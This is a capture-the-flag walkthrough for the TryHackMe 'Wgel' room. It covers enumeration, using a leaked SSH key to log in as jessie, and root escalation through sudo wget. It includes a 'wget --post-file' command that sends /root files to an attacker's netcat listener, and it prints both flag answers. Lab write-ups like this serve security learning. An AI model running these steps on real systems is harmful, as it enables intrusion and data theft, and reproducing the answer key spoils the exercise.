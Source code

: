                  WGEL CTF
                 
 -   1 - User flag
 - Let’s start by scanning the IP with nmap :-

     nmap -sV -Pn ip 

![Screenshot from 2023-05-07 10-39-57](https://user-images.githubusercontent.com/132823987/236684339-5677f854-5f3f-47b4-8fda-1499df51cc3d.png)
Then we have 2 open ports :- ssh and http.

Lets start with http:-
 -we haven't robot.txt file here.
 ![Screenshot from 2023-05-07 10-29-14](https://user-images.githubusercontent.com/132823987/236684419-e8328438-0c16-4660-9a4c-1543d73a9217.png)
 -the displayed default page is apache welcome page.
 ![Screenshot from 2023-05-07 10-28-11](https://user-images.githubusercontent.com/132823987/236684423-18aa76ce-a048-428b-8cda-355ba82ffe9b.png)
 After we scan the next step is directory bruteforce.
  for this step we use gobuster,Dirb.
  
 Lets go for Dirb => dirb <ip with http://>
 
  Result = we have many results, but the main is /sitemap/
![Screenshot from 2023-05-07 10-59-05](https://user-images.githubusercontent.com/132823987/236685322-eb6251ba-81de-4981-86fa-e8b2380f9c89.png)

 then we get good,cool website.
![Screenshot from 2023-05-07 10-31-52](https://user-images.githubusercontent.com/132823987/236683996-c15a3815-8170-4640-8c4b-c6600f300b82.png)
 again we brute foce it the :- http:// ip /sitemap.
![Screenshot from 2023-05-07 10-59-15](https://user-images.githubusercontent.com/132823987/236685582-130071c2-39ed-4aef-a0b4-825978f61bcd.png)

 Then we get /.shh/ file.
![Screenshot from 2023-05-07 10-38-05](https://user-images.githubusercontent.com/132823987/236684183-2302216b-cec7-4047-beaf-ab768bc1518a.png)
After this we see id_rsa file.
![Screenshot from 2023-05-07 10-38-12](https://user-images.githubusercontent.com/132823987/236684205-236e518d-ea71-4088-a896-42c4c68c7092.png)
then we open and save the private key as id_rsa.
![Screenshot from 2023-05-07 10-41-13](https://user-images.githubusercontent.com/132823987/236685599-b4d495f8-2223-4be2-9634-a96b141f0f84.png)
-Let's give permission for id_rsa : chmod 600 id_rsa
![Screenshot from 2023-05-07 11-29-02](https://user-images.githubusercontent.com/132823987/236689980-b7fefbe8-7677-420f-9e0c-cfbfc48ea2f3.png)

SO we try ssh shell for this => ssh -i id_rsa jessie@ ip

![Screenshot from 2023-05-07 12-09-00](https://user-images.githubusercontent.com/132823987/236689812-e4901f20-c389-412d-b0cf-6a17de549a1d.png)
BUT who is jessie and how you get it?
answer : as we see we have http open port and in the web if you see page/source code you will get jessie.
![Screenshot from 2023-05-07 10-30-29](https://user-images.githubusercontent.com/132823987/236684118-e1a5827e-a377-4c93-9174-b342d8d6a27e.png)
Then we get Jessie's shell.
After this  :- - go to /Documents/ => cd /Documents/
            - ls then you get "user_flag.txt"
            - cat user_flag.txt 
            ![Screenshot from 2023-05-07 12-10-02](https://user-images.githubusercontent.com/132823987/236690030-2ac1ccbb-eee2-43b0-9292-499f8d94e06c.png)

- copy the flag and submit it on tryhackme.com/room/wgel/
 ![Screenshot from 2023-05-07 12-28-08](https://user-images.githubusercontent.com/132823987/236690086-fd7d30ab-e4a5-4f96-967d-d987b848508a.png)

       - ANSWER 1:

        057c67131c3d5e42dd5cd3075b198ff6
       

  -   2  - Root flag
    
 On JESSIE'S shell - ls -l /root/ 
 then the shell says 'Permission denied'
 ![Screenshot from 2023-05-07 12-10-32](https://user-images.githubusercontent.com/132823987/236689683-23ee6f70-3640-496b-bc3c-0314c7efa64c.png)
       do sudo -l =>  (root) NOPASSWD: /usr/bin/wget
       ![Screenshot from 2023-05-07 12-11-06](https://user-images.githubusercontent.com/132823987/236689700-1eaceac4-f0a0-43b2-bddc-dc12027a405c.png)
   then he tells you the wget command work without sudo privilage.

-After this we need file upload but before this we must run 'netcat'.
  run this command      => nc -lvp 1234
![Screenshot from 2023-05-07 11-34-27](https://user-images.githubusercontent.com/132823987/236687849-5cdb78bb-a7d0-487a-8fe6-ac76ca272bd7.png)

- for file upload run this command :-
     => sudo wget --post-file=/root/root_flag.txt (your pc ip and the port you use for nc )
      for e.x :- 10.10.10.10:1234
      ![Screenshot from 2023-05-07 11-39-30](https://user-images.githubusercontent.com/132823987/236687989-0a9f4c47-96e5-40cc-950c-ba3ba0a7a00b.png)
     THEN you will get the root flag through the netcat listener.
![Screenshot from 2023-05-07 11-50-07](https://user-images.githubusercontent.com/132823987/236688214-72af6c5d-306b-45e3-8df8-7b5cc6b33348.png)

-copy the flag and submit it on tryhackme.com/room/wgel/ 
![Screenshot from 2023-05-07 12-38-15](https://user-images.githubusercontent.com/132823987/236690659-b48c4182-f5ef-44b0-84e2-931abdebe185.png)

 -ANSWER :-
 
     -  b1b968b37519ad1daa6408188649263d
                                                  

